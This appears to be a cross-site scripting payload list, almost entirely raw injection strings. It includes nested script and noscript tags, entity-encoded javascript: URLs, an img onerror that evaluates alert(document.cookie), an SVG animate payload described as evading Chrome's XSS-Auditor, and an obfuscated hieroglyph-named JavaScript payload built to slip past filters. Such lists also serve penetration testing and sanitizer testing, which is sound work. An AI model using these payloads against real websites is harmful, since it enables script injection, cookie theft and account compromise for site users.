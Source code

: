 <output>
<noscript onerror=prompt(0);><a href="javascript:alert("XSS")>XSS</a>"><script onerror="<noscript onerror="<script>alert("XSS")</script>"><IMG src=<script src="/">alert(" "XSS" ")</script></noscript>"<script>alert("XSS")</script></noscript>
</output>
<a href="javascript&colon;alert&lpar;document&period;domain&rpar;">Click Here</a>

<img src=x onerror="eval('alert(document.cookie)')"/>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>This payload injects a malicious script into an SVG element. The script sets the href attribute of the animate element to javascript:alert(1), which will execute the alert function when clicked. Since the script is injected into an SVG element, the Chrome XSS-Auditor fails to detect it.
<a href=”#” onclick=”… var input=’controllable data here’; …”>


𓅂='',𓂀=!𓅂+𓅂,𓁄=!𓂀+𓅂,𓊎=𓅂+{},𓆣=𓂀
[𓅂++],𓊝=𓂀[𓇎=𓅂],𓏢=++𓇎+𓅂,𓆗=𓊎[𓇎+𓏢
],𓂀[𓆗+=𓊎[𓅂]+(𓂀.𓁄+𓊎)[𓅂]+𓁄[𓏢]+𓆣+
𓊝+𓂀[𓇎]+𓆗+𓆣+𓊎[𓅂]+𓊝][𓆗](𓁄[𓅂]+𓁄[
𓇎]+𓂀[𓏢]+𓊝+𓆣+'`𓅂 𓏢 𓂀 𓁄 𓆣 𓊝 𓇎`')``

<</div>script</div>>alert()<</div>/script</div>>
